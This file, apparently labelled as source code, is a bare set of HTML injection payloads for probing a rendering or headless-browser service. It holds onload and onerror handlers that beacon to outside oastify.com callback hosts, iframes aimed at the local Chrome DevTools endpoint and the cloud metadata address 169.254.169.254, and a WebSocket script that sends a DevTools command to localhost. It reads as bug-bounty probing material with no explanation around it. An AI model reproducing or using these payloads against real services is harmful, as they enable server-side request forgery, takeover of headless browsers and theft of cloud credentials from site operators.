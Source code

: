 Hello
<body onload="setTimeout(function(){var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://7u2mvavbiotucxmybqdphq1o6fc60zoo.oastify.com', true); xhr.send();}, 1000);">hello</body>


1st
<iframe src="http://localhost:3000/json" width="800" height="600"></iframe>
2nd
<iframe src="http://localhost:3000/json/version" width="800" height="600"></iframe>
3rd
<iframe src="http://169.254.169.254/latest" width="800" height="600"></iframe>
4th
<iframe src="https://app.adora.so" width="800" height="600"></iframe>
5th
<object data="https://example.com" type="video/mp4" width="600" height="400"></object>
6th
<div id="output"></div>
<script>
  var ws = new WebSocket('ws://localhost:3000');
  ws.onerror = console.error;
  ws.onclose = console.log;
  ws.onmessage = ev => {
    document.getElementById('output').innerText = ev.data;
  };
  ws.onopen = () => {
    ws.send(JSON.stringify({ "id": 1, "method": "Browser.getVersion" }))
  };
</script>



<img src="image.png", onerror="setTimeout(function(){var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://dyfszgzhmux0g3q4fwhvlw5ualgc44st.oastify.com', true); xhr.send();}, 1000);">

